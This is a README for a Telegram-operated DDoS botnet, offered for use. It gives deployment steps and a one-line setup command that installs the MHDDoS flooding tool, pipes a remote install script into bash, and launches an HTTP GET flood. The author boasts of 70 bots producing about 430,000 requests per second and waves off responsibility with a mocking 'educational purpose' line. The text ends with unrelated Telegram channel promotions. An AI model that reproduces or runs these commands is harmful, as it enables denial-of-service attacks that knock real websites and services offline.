 # DDOS Botnet Sample

DDOS BotNet for telegram, just make differents version of this bot with differents telegram token (in .env file pls).

And host it ! (I use [GLITCH](https://glitch.com/dashboard) for simple and free host)
<br><br>
## How use it ?

Just clone the repo on your hosting server, make a .env file with a TELEGRAM_TOKEN variable with your telegram token key, 
and make a NUM variable with the name of the bot.
<br><br>
In the shell of your hosting server make this config command : 
<br>
` /usr/bin/python3 -m pip install --upgrade pip && pip3 uninstall telegram && pip3 uninstall telegram-bot python-telegram-bot && pip3 install -r requirements.txt &&git clone https://github.com/MatrixTM/MHDDoS.git && cd MHDDoS && pip3 install -r requirements.txt && curl -s https://raw.githubusercontent.com/SlavaUkraineSince1991/DDoS-for-all/main/scripts/python_git_MHDDoS_proxy_install.sh | bash && python3 ~/MHDDoS/start.py GET example.com 1 100 mhddos_proxy/list 100 5 `
<br>
Now hit the URL of the bot for start (only if your hosting sleep your project in free mode like Glitch), you can also make a bot for start all other bot. 


The installation tutorial is not finished, if you have any problems I can help you.

<br><br>
[+] NEW ! You can now upgrade your requests/s using my [DDOS BOOSTER !](https://github.com/Mehliug-git/DDOS_Booster) It's just a DDOS bot without Telegram, just get a URL and start DDOS !    
<br>
[+] NEW ! : If you just want to test your infrastrucutre open me an Issue and have done this together !!

**In my Botnet I have actually 70 bots, I can go up to ~ 430 000 requests /s**
<br><br>

### Just for educational purpose only, Do, what you want I don’t give a fuck, but it’s not my fault you’re in trouble.


ˢᵘᵖᵖᵒʳᵗ ᵃⁿᵈ ˢʰᵃʳᵉ 

ᴶᵒⁱⁿ   ˢᴿᶜ ᶜᴴᴬᴺᴸ @PrivateFileTg 
ᴶᵒⁱⁿ  ᴹᵒᵈ ᶜʰⁿˡ  @VipFirMod
ᴶᵒⁱⁿ   Panels @YashuKuroPanelsFile

𝐅𝐎𝐋𝐋𝐎𝐖 𝐒𝐎𝐌𝐄 𝐑𝐔𝐋𝐄𝐒:-
»•𝐍𝐨 𝐂𝐡𝐚𝐭𝐭𝐢𝐧𝐠  »•𝐍𝐨 𝐏𝐚𝐢𝐝 𝐏𝐨𝐬𝐭𝐬 𝐍𝐨 𝐏𝐫𝐞𝐦𝐨𝐬𝐢𝐨𝐧 